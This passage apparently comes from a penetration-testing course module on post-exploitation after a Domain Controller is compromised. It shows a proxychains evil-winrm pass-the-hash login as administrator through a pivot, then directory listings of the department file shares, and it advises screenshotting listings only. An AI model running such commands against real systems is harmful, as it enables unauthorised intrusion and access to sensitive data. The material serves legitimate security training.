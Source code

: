 Once we've gained access to the Domain Controller we can likely access most any resources in the domain. If we want to demonstrate impact for our clients a good spot to start is going back to the file shares to see what other types of data we can now view. As discussed in the `Documentation & Reporting` module, we should make sure to just take screenshots showing a file listing if we find a particularly sensitive file share, and not open individual files and take screenshots or remove any files from the network.

Post-Exploitation

```shell-session
swmpdnky@htb[/htb]$ proxychains evil-winrm -i 172.16.8.3 -u administrator -H fd1f7e556xxxxxxxxxxxddbb6e6afa2

ProxyChains-3.1 (http://proxychains.sf.net)

<SNIP>

Evil-WinRM* PS C:\Users\Administrator\desktop> cd c:\

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK

*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/1/2022  11:34 AM                Department Shares
d-----        9/15/2018  12:12 AM                PerfLogs
d-r---       12/14/2020   6:43 PM                Program Files
d-----        9/15/2018  12:21 AM                Program Files (x86)
d-r---         6/1/2022  11:07 AM                Users
d-----         6/1/2022  11:10 AM                Windows
```

Let's go back to the `Department Shares` share and see what else we can find.

Post-Exploitation

```shell-session
*Evil-WinRM* PS C:\Department Shares> dir

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK


    Directory: C:\Department Shares


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/1/2022  11:34 AM                Accounting
d-----         6/1/2022  11:34 AM                Executives
d-----         6/1/2022  11:34 AM                Finance
d-----         6/1/2022  11:33 AM                HR
d-----         6/1/2022  11:33 AM                IT
d-----         6/1/2022  11:33 AM                Marketing
d-----         6/1/2022  11:33 AM                R&D
```
